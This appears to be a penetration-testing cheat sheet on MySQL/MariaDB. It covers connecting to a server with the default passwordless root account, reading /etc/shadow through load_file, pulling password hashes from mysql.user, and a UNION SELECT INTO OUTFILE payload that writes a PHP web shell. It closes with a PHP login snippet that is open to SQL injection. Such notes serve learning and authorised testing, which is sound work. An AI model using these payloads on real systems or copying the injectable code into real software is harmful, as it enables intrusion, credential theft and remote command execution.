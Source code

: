 # Mysql / MariaDB


Default Port: 3306

MariaDB is a an open-source fork of MySQL.











## Credentials
Default `root` without password

```
MySQL [(none)]> select load_file("/etc/shadow");


```









## Basic commands
- <https://www.mysqltutorial.org/mysql-cheat-sheet/> 


### Connect
```
# -h for remote host
mysql -h [IP] -u root
mysql -h [IP] -u root -p
mysql [IP] -u root -p
mysql -u root -p'root' -h 192.168.50.16 -P 3306

```


```
# MySQL accepts both version() and @@version statements.
select version();
@@version


select system_user();
	The root user is the database-specific root user, not the the system-wide administrative root user.


# Print out the databases we can access in this session
SHOW databases;


USE {database_name};     		: Set to use the database named {database_name}.
SHOW tables;	                : Prints out the available tables inside the current database.
SELECT * FROM {table_name};   	: Prints out all the data from the table {table_name}


# Retrieve the password of a user present in the mysql database
SELECT user, authentication_string FROM mysql.user WHERE user = '[USERNAME]';




```



The user's password is stored in the authentication_string field as a Caching-SHA-256 algorithm.

`caching_sha2_password` is a plugin value because it is the name of an authentication plugin used by the MySQL server to handle user authentication. MySQL supports various authentication plugins, and each plugin determines how user credentials are stored and verified during login attempts.


MySQL still supports other authentication plugins (like `mysql_native_password`) for backward compatibility. However, `caching_sha2_password` is recommended due to its stronger security features.(?)




## Webshell
Although the various MySQL database variants don’t offer a single function to escalate to RCE, we can abuse the `SELECT INTO_OUTFIL`E statement to write files on the web server.


```
UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
The PHP system function will parse any statement included in the cmd parameter coming from the client HTTP REQUEST, thus acting like a web-interactive command shell.









## PHP

```
<?php
$uname = $_POST['uname'];
$passwd =$_POST['password'];
$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

The `i` inside the `mysqli_query` PHP function stands for *improved* and should not be confused with the vulnerability!











